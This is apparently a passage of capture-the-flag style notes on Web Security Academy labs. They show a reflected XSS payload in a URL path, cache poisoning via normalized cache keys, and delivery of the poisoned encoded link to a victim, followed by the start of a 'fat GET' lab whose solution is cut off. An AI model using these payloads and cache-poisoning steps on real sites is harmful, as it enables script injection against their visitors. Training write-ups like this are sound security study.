 ```http
GET /cvarci HTTP/2
```

Notice the response:
```html
<p>Not Found: /cvarci</p>
```

Optionally, use `Origin: cb.net` for cache buster.

##### XSS

```http
GET /cvarci</p><script>alert(1)</script><p> HTTP/2
```

Running from the browser does not work
```
Not Found: /cvarci%3C/p%3E%3Cscript%3Ealert(1)%3C/script%3E%3Cp%3E
```

But sending via Repeater will work. We got reflected XSS.

##### Cache Poisoning

Test if URL without encoded path will be cache the URL with encoded path:

```
GET /cvarci</p><script>alert(1)</script><p> HTTP/2
GET /cvarci%3c%2f%70%3e%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e%3c%70%3e HTTP/2
```

First does cache the other. As explained in the materials this is due Normalized Cache Keys.

In the lab we have the option to deliver the link to victim.

##### Combining the two

Run the first request again to make sure it gets cached and send the following link to victim:

```
https://my.web-security-academy.net/cvarci%3C%2fp%3E%3Cscript%3Ealert%281%29%3C%2fscript%3E%3Cp%3E
```

## Web cache poisoning via a fat GET request
![Awesome Badges](https://img.shields.io/badge/level-practitioner-blue)

This lab is vulnerable to web cache poisoning. It accepts `GET` requests that have a body, but does not include the body in the cache key. 

A user regularly visits this site's home page using Chrome.

To solve the lab, poison the cache with a response that executes `alert(1)` in the victim's browser.

#### Solution
